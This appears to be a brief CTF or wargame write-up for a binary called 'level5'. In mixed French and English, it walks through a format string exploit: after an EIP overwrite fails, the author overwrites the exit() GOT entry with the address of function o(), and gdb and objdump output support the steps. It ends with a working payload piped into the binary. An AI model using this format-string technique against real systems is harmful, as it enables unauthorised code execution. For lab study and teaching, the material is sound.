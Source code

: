 # level5

In printf `eip` is at `0xbffff4fc`
Function `o()` is at `0x080484a4`
Let's put this adress in `EIP`!

```bash
python -c "print '\xfc\xf4\xff\xbf' + '%134513824x' + '%4\$n'")
```

Ne marche pas avec 24, 25, 26 plante au milieu de la fonction `(<o+2>)`

On arrive pas à lancer function `o()` \
`eip` dans `printf` change de temps en temps ---> **le seum**

Sauf que!! On peut réecrire le GOT (Global Offset Table): on réecrie l'adresse de `exit()` et on y met l'adresse de `o()`:
```
(gdb) info function exit
# 0x080483d0  exit

disas 0x080483d0
# Dump of assembler code for function exit@plt:
#   0x080483d0 <+0>:     jmp    DWORD PTR ds:0x8049838
#   0x080483d6 <+6>:     push   0x28
#   0x080483db <+11>:    jmp    0x8048370
# End of assembler dump.
```

=> Deuxième manière d'avoir le GOT:
```
objdump -R ./level5

./level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit # <---
0804983c R_386_JUMP_SLOT   __libc_start_main
```

On a notre payload:
```bash
(python -c "print '\x38\x98\x04\x08' + '%134513824x' + '' + '%4\$n'"; cat) | ./level5
```
